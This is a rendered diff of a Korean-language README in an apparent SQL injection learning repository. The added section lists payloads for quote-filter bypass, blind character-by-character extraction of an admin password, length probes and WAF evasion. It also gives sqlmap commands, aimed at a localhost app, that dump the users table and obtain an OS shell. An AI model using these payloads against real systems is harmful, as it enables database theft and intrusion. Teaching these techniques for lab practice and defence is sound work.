

Before and after one commit to Dangel165/sql_injection, a Markdown page: README.md, the part around one of its changes. Shown at 86% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -84,3 +222,73 @@ SELECT * FROM users WHERE username = 'admin' OR '1'='1' --' AND password = '해
+**11-3. 따옴표 필터링 우회:**
+```sql
+-- 16진수 인코딩
+admin OR username=0x61646d696e--  (admin의 16진수)
+
+-- CHAR 함수 이용
+admin OR username=CHAR(97,100,109,105,110)--
+
+-- 백슬래시 이용
+admin\' OR 1=1--
+```
+
+#### 12. 고급 데이터 추출 기법
+
+**12-1. 한 글자씩 추출:**
+```sql
+-- 관리자 비밀번호 첫 글자 확인
+admin' AND (SELECT SUBSTR(password,1,1) FROM users WHERE username='admin')='a'--
+
+-- ASCII 값으로 비교
+admin' AND (SELECT ASCII(SUBSTR(password,1,1)) FROM users WHERE username='admin')>97--
+```
+
+**12-2. 길이 기반 추출:**
+```sql
+-- 비밀번호 길이 확인
+admin' AND (SELECT LENGTH(password) FROM users WHERE username='admin')=10--
+
+-- 테이블 개수 확인
+admin' AND (SELECT COUNT(name) FROM sqlite_master WHERE type='table')=5--
+```
+
+#### 13. 자동화 도구 활용
+
+**SQLMap 명령어 예시:**
+```bash
+# 기본 스캔
+sqlmap -u "http://localhost:5000/login" --data="username=admin&password=test" --dbs
+
+# 테이블 추출
+sqlmap -u "http://localhost:5000/login" --data="username=admin&password=test" -D database --tables
+
+# 데이터 덤프
+sqlmap -u "http://localhost:5000/login" --data="username=admin&password=test" -D database -T users --dump
+
+# 쉘 획득
+sqlmap -u "http://localhost:5000/login" --data="username=admin&password=test" --os-shell
+```
+
+#### 14. 방어 우회 고급 기법
+
+**14-1. WAF 우회:**
+```sql
+-- 대소문자 혼합
+AdMiN' oR 1=1--
+
+-- 인코딩 조합
+admin%27%20OR%201=1--
+
+-- 주석 삽입
+admin'/*comment*/OR/*comment*/1=1--
+```
+
+**14-2. 길이 제한 우회:**
+```sql
+-- 짧은 페이로드
+'OR 1#
+'||1#
+';--
+```
 
 ### 🛡️ 안전한 코드 구현 방법
 
````
Also changed, not shown: other parts of README.md (+148 -10 lines).
